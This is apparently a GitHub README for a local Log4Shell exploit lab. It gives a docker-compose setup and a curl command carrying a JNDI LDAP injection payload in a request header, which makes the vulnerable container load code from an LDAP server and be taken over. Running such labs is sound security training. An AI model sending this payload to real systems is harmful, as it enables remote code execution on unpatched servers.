 # log4shell exploit lab

This repository is a single-line setup for log4shell exploit lab.

Setup the lab: `docker-compose up -d`

Run exploit: `curl -X GET http://localhost:8080/ -H "X-Api-Version: ${jndi:ldap://my_ldap_server:1389/a}"`

Then go to `vul` container and see that indeed we pwned the machine:

![](README-resources/Screenshot%202023-11-30%20205423.png)


* Video explaining the lab setup: https://www.youtube.com/watch?v=WBzR30JcT5g)
* Video explaining the code: https://www.youtube.com/watch?v=oRvp0c-fa1o

